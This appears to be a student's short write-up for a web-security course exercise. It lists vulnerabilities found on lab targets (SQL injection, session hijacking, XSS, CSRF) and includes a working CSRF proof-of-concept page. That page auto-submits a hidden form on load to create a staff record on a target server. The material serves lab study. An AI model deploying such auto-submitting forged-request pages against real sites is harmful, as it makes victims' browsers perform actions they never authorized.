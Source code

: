 #Code PAth Week 9

<br>##Blue
  <br>sql injection
  <br>session hijacking
<br>##Green
  <br>xss

<br>##Red
  <br>csrf
  ````````
<!doctype html>
<html lang="en">
    <body onload="document.createElement('form').submit.call(document.getElementById('csrf_form'))">
    <form id="csrf_form" name="csrf_form" action="https://35.184.88.145/red/public/staff/salespeople/new.php" method="post">
    <input type="hidden" name="csrf_token" value="randomstringheredontmindme" />
    <input type="hidden" name="first_name" value="round5" />

    <input type="hidden" name="last_name" value="fight" />

    <input type="hidden" name="phone" value="2-2-2-2" />

    <input type="hidden" name="email" value="wdadda@gmail.com" />
    <input id="submit" type="hidden" name="submit" value="Create"  />
  </form>
</html>
`````
